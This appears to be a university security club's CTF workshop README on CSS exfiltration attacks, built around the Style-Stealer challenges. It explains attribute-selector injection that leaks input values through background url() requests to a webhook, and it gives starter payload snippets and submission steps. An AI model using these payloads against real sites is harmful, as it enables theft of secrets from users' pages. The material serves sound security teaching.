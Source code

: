 # Web 1: CSS Exfiltration Attack

### What is a CSS Exfiltration Attack?

A CSS Exfiltration Attack occurs when an attacker is able to inject CSS into a web page. While some elements on a page may be restricted from direct access, cleverly crafted CSS can be used to extract sensitive data. This is possible because certain CSS selectors and functions can indirectly leak information by triggering observable behaviors, such as generating HTTP requests. In some cases, CSS injection may also lead to JavaScript execution. Today, we are specifically focusing on the data exfiltration aspect of such attacks.

### What is a Webhook?

A Webhook is a mechanism that allows data to be sent to a unique URL when certain events occur. One way to explore this is by visiting [webhook.site](http://webhook.site), a service that provides you with your own unique URL. This URL is private to you, and any visits to it are logged to it. You can also send information along with each visit, such as `webhook/whatever_you_want`.

### How to perform a CSS Exfiltration Attack?

In our challenge `Style-Stealer`, we assume that a secret is stored in an element such as `<input value="secret">`. The idea is to then inject something like `[value="a"] { background: url(webhook/a); }`, which targets an HTML element with a value attribute equal to "a". If such an element exists, the browser will attempt to load a background image from `webhook/a`, effectively making a request to your webhook URL. Although there's no actual image, the request itself logs the data access. Make sure to replace `"webhook"` with your own unique webhook URL.

To expand this attack, rather than guessing exact values, you can use partial attribute selectors:

`[value^="a"]`

- `^` means first character
  - matches all HTML elements that start with "a"

`[value$="a"]`

- `$` means last character
  - matches all HTML elements that end with "a"

These allow broader probing of values without brute-forcing every possibility. For convenience and scale, it’s recommended to write a Python script with for loop(s) to automatically generate these.

## Challenges

The following challenges in increasing difficulty are deployed to [platform.acmcyber.com](https://platform.acmcyber.com) to practice the concepts covered.

- `style-stealer-1`
- `style-stealer-2`
- `style-stealer-3`
- `style-stealer-4`
- `style-stealer-5`
- `style-stealer-6`
- `style-stealer-100`

### Solving and Submitting

1. Go to the [style-stealer site](https://style-stealer.acmcyber.com/)
2. Generate your script (heh good luck).
3. Paste your script into the big CSS box (it should be pretty visible).
4. Put your desired level into the small Level (1-6, 100)
5. Submit and Test (ask us if you have questions)
   - On the blank page, click "View style".
   - See if the letter(s) that are displayed match the letter(s) logged on your webhook (this is like a sanity check).
6. Copy the URL and DM it to `r2uwu2` on Discord.
7. Once he opens your page, you should get a visit to your webhook with the letter(s) logged there (fingers crossed).
8. If the letters match, he will give you the flag :D. If they don't ...

Also, if you are scripting in python, use pyperclip library or a similiar library. It allows you to copy text, instead of having to manually highlight your output and copy it.

### Hints for Style-Stealer

starter script:

```html
<input value = "...">
[value = "..."] {
    color: red;
    background: url(...); /* this will make a request to your webhook if the value matches your "..." */
}
```

sending multiple webhooks:

```html
input {
    --aaa: none;
    --bbb: none;
    ...
}
[value^="a"] { --aaa: url(.../aaa); }
[value^="b"] { --bbb: url(.../bbb); }
...
[value]{
    background: var(--aaa), var(--bbb), ...;
}
```

conceptual question #1: why do we use 3 character long pattern searches?

conceptual question #2: how will we solve level 100 with only 3 character long searches?

note: there is also a recursive method to solve level 100 but that requires a web server (ask Ronak for more details)

## Resources

- [webhook.site](http://webhook.site)
- [CSS Attribute Selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
- [Blind CSS Data Exfiltration](https://medium.com/@angryovalegg/blind-css-data-exfiltration-8dd6614236b2)
- [Testing for CSS Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection)
